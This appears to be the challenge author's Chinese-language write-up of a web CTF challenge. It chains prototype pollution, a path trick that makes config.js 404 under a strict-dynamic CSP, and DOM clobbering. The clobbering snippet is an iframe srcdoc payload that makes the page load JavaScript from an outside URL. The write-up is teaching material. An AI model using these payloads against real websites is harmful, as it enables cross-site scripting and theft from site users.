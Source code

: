 # CTF Note

- Category: Web
- Solves: 0 / 95 (scores >= 1), 55 (scores > 1)

## Solution

### TL;DR
1. Use `category` to prototype pollution that markdown.js library: write arbitrary HTML
2. Use `/whatever/..%2f` to make `config.js` 404
3. DOM Clobbering: create a nyanCat plugin yourself, load arbitrary js
4. XSS!

### Detailed Solution

總之這是一個可以發 writeup 的網站，其中我們可以為每個題目設定：類別、名稱、writeup 內容，而 writeup 的部分是使用 [markdown.js](https://github.com/evilstreak/markdown-js) 這個 library render 的。

第一個會發現的問題是：雖然前端限制了 `category` 部分的值，但後端並沒有驗證，是可以寫任意值的。這樣會有什麼問題呢？`app.js:65` 有這樣的一行程式：
```javascript
WriteUps[writeup.category][writeup.challenge] = writeup.content;
```
那如果我們將某題的 `category` 設定為 `__proto__`，就可以順利進行 prototype pollution 了。

知道這件事後應該可以很快地發現：一旦成功污染了 `Object` 的 prototype，會導致 markdown render 出來的每個 element 都被加上 `[challenge]=[content]` 的 attribute，而 `challenge`（也就是 attribute name）的部分是不會被 HTML escape 掉的，可以寫入任意 HTML。

不過由於有嚴格的 CSP 限制，我們目前還做不到 XSS
```
Content-Security-Policy:
	default-src 'none'; base-uri 'none'; img-src 'self'; style-src 'self'; connect-src 'self'; script-src 'strict-dynamic' 'nonce-[hex]'
```

這邊比較值得一提的是 `script-src 'strict-dynamic' 'nonce-{hex}'` 的意義：
- nonce-{hex} 限制了只能載入有帶特定 nonce 的 script element 的 JavaScript。
- 'strict-dynamic' 可以參考 [CSP Reference](https://content-security-policy.com/strict-dynamic/)；以這個場景而言，它會允許有帶 nonce 的 script 元素插入任何 script element 並執行其 js。

而這題 `app.js` 中的 `loadPlugin` function 恰好符合這個條件可以載入 script
```javascript
function loadPlugin(pluginName) {
    if (!(pluginName in CONFIG.plugins)) return;
    let script = document.createElement('script');
    script.src = CONFIG.plugins[pluginName];
    document.body.appendChild(script);
}
```
但如我們所見，它傳入了 `pluginName`，並從 `CONFIG.plugins[pluginName]` 裏讀出 js 路徑。因此想要任意載入自己的 js，就必須先控制 `CONFIG`；而 `CONFIG` 是從 `config.js` 裏載入的：

```javascript
const CONFIG = {
    productName: "CTF Note",
    version: "v0.0.87",
    plugins: {
        nyanCat: '/plugins/nyan.js',
        xssSimulator: '/plugins/xss.js'
    }
};
```

這時候我們可以回頭看看任意寫入 HTML 能幫助我們做到什麼事情吧！

有一個技巧叫做 DOM clobbering（各種技巧可以參考 [PortSwigger 的文章](https://portswigger.net/research/dom-clobbering-strikes-back)），是一種透過操作 DOM 並藉此劫持 js 中數值（基本上是全域變數）的技巧。

顯然的，我們想要控制的是 `CONFIG` 這個東西，但問題是直接 DOM clobbering 蓋不掉現有的變數啊，怎麼辦呢？簡單，只要把它弄不見就好了！

其實應該可以發現 `config.js` 在 HTML 中引入的寫法和其他 js、css 是有點不一樣的，別人都是 `/static` 底下的絕對路徑，但 `config.js` 卻是相對路徑的寫法。
```html
<script nonce="nonce" src="config.js"></script>
```

我們可以利用這點讓 config.js 404，怎麼做到呢？由於 nginx 和瀏覽器解析路徑的方法有些不同，因此可以構造出一個 nginx 讀得到，但瀏覽器卻讀不到的路徑：
```
http://ctf-note.splitline.tw:9527/meow/..%2f
```
- 對於 nginx 而言，它會因為 `..%2f` 返回上一層目錄，順利顯示出 / 該有的內容。
- 對於瀏覽器而言，`..%2f` 只是 `meow` 目錄下的一個檔案名稱，因此以相對路徑而言會讀到 `/meow/config.js`。

如此一來 config.js 就 404 not found 了，順利使 `CONFIG` 消失。

接下來就再回到 DOM clobbering，我們可以使用 iframe + srcdoc 的方法構造出 `CONFIG.plugins.nyanCat`：

```html
<iframe name=CONFIG srcdoc="
    <iframe id=CONFIG name=plugins
        srcdoc='<a id=nyanCat href=http://url/to/your.js>test</a>'>
"></iframe>
```

至此，我們已經能成功塞進去自己的 js，達成 full XSS！實際攻擊腳本可以參考 `solution.py`。


## Postscript

個人覺得這題是這場 CTF 中我出的題目裡我最喜歡的一題，一開始想到要把 prototype pollution 跟 DOM clobbering 結合在一起就出了這題，其實也是花了蠻多時間設計題目場景。話說回來這也是我第一次正式出 XSS 題，真的是蠻累的，前端、後端以及 xss bot 全都要認真設計，如果是純後端題的話前端可以隨便寫就好了 XD

感覺很多人都差最後一步了，卡在不知道怎麼蓋掉 config.js，最後沒人解出還是覺得有點可惜，本來是希望能有一～二隊解的 XD